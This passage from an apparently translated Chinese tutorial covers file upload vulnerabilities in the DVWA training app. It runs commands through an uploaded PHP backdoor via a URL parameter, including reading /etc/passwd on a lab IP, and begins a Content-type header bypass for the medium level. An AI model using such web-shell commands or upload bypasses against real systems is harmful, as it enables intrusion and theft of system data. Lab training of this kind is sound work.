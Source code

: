 此时，我们已经准备好通过键入文件的 URL 从浏览器运行命令:

`[http://10.10.234.80/hackable/uploads/backdoor.php?cmd=OUR_COMMAND](http://10.10.234.80/hackable/uploads/backdoor.php?cmd=OUR_COMMAND)`

其中“10.10.234.80”是目标机器的 IP 地址。
例如，如果我们想显示 passwd 文件的内容，我们只需键入:

`[http://10.10.234.80/hackable/uploads/backdoor.php?cmd=cat+/etc/passwd](http://10.10.234.80/hackable/uploads/backdoor.php?cmd=cat+/etc/passwd)`

![](img/8e3517d5e180053732d8559e717e33b2.png)

成功了，我们可以进入下一关了，所以把难度设为中等，开始读下一段。

# 步骤 DVWA 中等安全性中的文件上传漏洞

在这一级，有一种过滤器不允许我们像上一级那样上传文件。

特别是，服务器检查名为“Content-type”的报头。好消息是我们可以创建一个请求并设置头部。
也许在我之前的教程中，你已经看到了如何用 python 做到这一点。这一次我想通过在 Kali 机器上使用我们的终端向你展示一个非常快速的方法，然而，没有人阻止你用 python 做这件事！

首先，我们需要检查上传文件的表单(在 Firefox 中右键+ Inspect)，这就是结果！

```
<form enctype="multipart/form-data" action="#" method="POST">
   <input type="hidden" name="MAX_FILE_SIZE" value="100000">
   Choose an image to upload:<br><br>
   <input name="uploaded" type="file"><br>
   <br>
   <input type="submit" name="Upload" value="Upload">

</form>
```
